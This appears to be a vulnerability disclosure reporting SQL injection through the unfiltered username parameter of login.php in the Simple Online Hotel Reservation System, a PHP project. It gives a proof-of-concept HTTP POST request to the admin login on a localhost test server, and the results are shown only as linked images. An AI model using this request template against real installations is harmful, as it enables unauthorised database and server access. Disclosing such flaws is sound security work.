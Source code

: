 # Simple Online Hotel Reservation System

## supplier 
https://code-projects.org/simple-online-hotel-reservation-system-in-php-with-source-code
## Vulnerability file
login.php

## describe

**Code analysis**   

In the login.php file of Simple Online Hotel Reservation System, theuser username parameter is obtained, and the SQL statement is concatenated to the SQL statement without filtering the execution, resulting in SQL injection vulnerabilities and server permissions

![image-2025](https://github.com/asd1238525/cve/blob/main/5fc8f5f7-f5fe-42c4-ae86-d818e9440523.png)


## POC

```
POST /simplehotel/HOR/admin/ HTTP/1.1
Host: 127.0.0.1:8083
Content-Length: 28
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8083
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8083/simplehotel/HOR/admin/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=s5o8pk3psueru08ci1jjc6b3if
Connection: close

username=1&password=1&login=

```

**Result**
![image-2025](https://github.com/asd1238525/cve/blob/main/861e26ad-13ad-4b5e-954e-139dcd8af444.png)
Get payload:
![image-2025](https://github.com/asd1238525/cve/blob/main/b051aab6-fb22-4c66-82a1-a41f30b89a37.png)